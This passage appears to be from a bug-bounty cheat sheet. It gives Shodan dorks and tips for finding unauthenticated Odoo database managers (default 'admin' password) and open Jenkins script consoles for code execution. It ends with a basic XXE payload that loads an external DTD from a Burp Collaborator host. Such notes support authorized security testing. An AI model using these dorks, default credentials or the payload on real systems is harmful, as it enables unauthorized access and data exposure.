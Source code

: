 ```powershell
Its very easy to get RCE from this method :)
```

#### Unauthenticated odoo Manager

```powershell
Shodan Dork

http.status:200 http.component:odoo port:8069

After finding instances go to /web/database/manager most of the time there is either no password or it's "admin"

Or simply port scan for 8069
```

#### Unauthenticated Jenkins Instance

```powershell
Sometimes an application will be running Jenkins which allows Guest/Anonymous signups with /script enabled which allows code exec

Also if you can install plugins there is a terminal plugin

Try dirsearch for /script or use this script to find live Jenkins instances.

Also worth checking Port 8080 alongside 443,80


I recommened if you are working on a big program with thousands of domains to grep for jenkins and pipe all subdomains into full tcp ports scans. Sometimes the instance can be running on a weird port :)


Also grep for these headers

X-Hudson: 1.395
X-Jenkins: 2.204.2
X-Jenkins-Session: d615ef86
X-You-Are-Authenticated-As: anonymous
X-You-Are-In-Group-Disabled: JENKINS-39402:


Shodan Dork to Find Open Jenkins Instances

x-jenkins 200
```

#### XML External Entity (XXE)

```powershell

#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

XML is essential a language designed to transport data in a structured format, ,similar to JSON.

Basic XXE Check

<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data SYSTEM "http://123123123.burpcollaborator.net/nandangSec.dtd"><data>&all;</data>

XXE is a vuln that occurs when an application parses XML.


<?xml version="1.0"?>
```